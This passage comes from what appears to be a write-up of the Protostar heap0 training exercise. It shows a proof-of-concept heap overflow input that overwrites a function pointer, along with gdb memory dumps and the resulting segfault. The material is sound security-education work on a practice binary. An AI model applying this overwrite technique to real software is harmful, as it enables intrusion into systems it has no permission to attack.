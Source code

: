 ### Testing the concept

From `<main>` and the output of the heap, I know I have to override the memory at location *0x804a050* with the address of `<winner>`. And so I experimented with the following input - `"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcde"`. The *'a'* floods the heap, allowing *'bcde'* to be stored in memory address *0x804a050* (as *0x65646362*). The program thus tries to execute code at the memory address *0x65646362*.
The output is below.
```
(gdb) start aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcde
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 7 at 0x8048495: file heap0/heap0.c, line 30.
Starting program: /opt/protostar/bin/heap0 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabcde

Temporary breakpoint 7, main (argc=2, argv=0xbffff704) at heap0/heap0.c:30
30	in heap0/heap0.c
0x08048495 <main+9>:	 c7 04 24 40 00 00 00	mov    DWORD PTR [esp],0x40
0x0804849c <main+16>:	 e8 e7 fe ff ff	call   0x8048388 <malloc@plt>
0x080484a1 <main+21>:	 89 44 24 18	mov    DWORD PTR [esp+0x18],eax
(gdb) c
Continuing.

Breakpoint 6, 0x080484b1 in main (argc=2, argv=0xbffff704) at heap0/heap0.c:31
31	in heap0/heap0.c
0x080484b1 <main+37>:	 89 44 24 1c	mov    DWORD PTR [esp+0x1c],eax
(gdb) break *0x080484b1
Note: breakpoint 6 also set at pc 0x80484b1.
Breakpoint 8 at 0x80484b1: file heap0/heap0.c, line 31.
(gdb) x/32x 0x804a004
0x804a004:	0x00000049	0x00000000	0x00000000	0x00000000
0x804a014:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a024:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a034:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a044:	0x00000000	0x00000000	0x00000011	0x00000000
0x804a054:	0x00000000	0x00000000	0x00020fa9	0x00000000
0x804a064:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a074:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.
data is at 0x804a008, fp is at 0x804a050

Breakpoint 1, main (argc=2, argv=0xbffff704) at heap0/heap0.c:38
38	in heap0/heap0.c
0x080484f7 <main+107>:	 8b 44 24 1c	mov    eax,DWORD PTR [esp+0x1c]
0x080484fb <main+111>:	 8b 00	mov    eax,DWORD PTR [eax]
0x080484fd <main+113>:	 ff d0	call   eax
(gdb) x/32x 0x804a004
0x804a004:	0x00000049	0x61616161	0x61616161	0x61616161
0x804a014:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a024:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a034:	0x61616161	0x61616161	0x61616161	0x61616161
0x804a044:	0x61616161	0x61616161	0x61616161	0x65646362
0x804a054:	0x00000000	0x00000000	0x00020fa9	0x00000000
0x804a064:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a074:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x65646362 in ?? ()
0x65646362:	Cannot access memory at address 0x65646362
```